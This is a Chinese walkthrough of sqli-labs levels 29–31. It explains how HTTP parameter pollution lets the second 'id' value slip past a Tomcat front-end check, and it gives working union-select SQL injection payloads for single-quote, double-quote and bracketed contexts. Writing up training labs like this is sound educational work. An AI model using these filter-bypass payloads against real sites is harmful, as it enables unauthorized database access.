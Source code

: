 # 十四、答题模式-Less-29~31

### Less-29

首先这里我们查看jsp源码，它会对第一个参数id进行正则匹配 ` ^\\d+$ ` ，匹配通过后请求Apache(php)服务器。

根据HPP原理，我们可以构造payload:

    ?id=1&id=-1' union seslect 1,user(),3--+

在这里，我们要先绕过Tomcat的jsp代码先，因此需第一个id是正常值，&后面的id值才是我们的注入。


### Less-30

原理和Less-29是一直的，只是在sql处理上是双引号。因此此处也可以直接丢出payload:
    
    ?id=1&id=-1"union%20select%201,user(),3--+
    

### Less-31


原理和上述两个例子是一样的，只是sql处理上是双引号加括号的处理。因此此处也可以直接丢出payload:

    ?id=1&id=-1%22)union%20select%201,user(),3--+

> %22是双引号，%20是空格。


**总结**：从以上三关中，我们主要学习到的是不同服务器对于参数的不同处理，HPP 的应用有很多，不仅仅是我们上述列出过WAF一个方面，还有可以执行重复操作，可以执行非法操作等。同时针对WAF的绕过，我们这里也仅仅是抛砖引玉，后续的很多的有关HPP 的方法需要共同去研究。这也是一个新的方向。

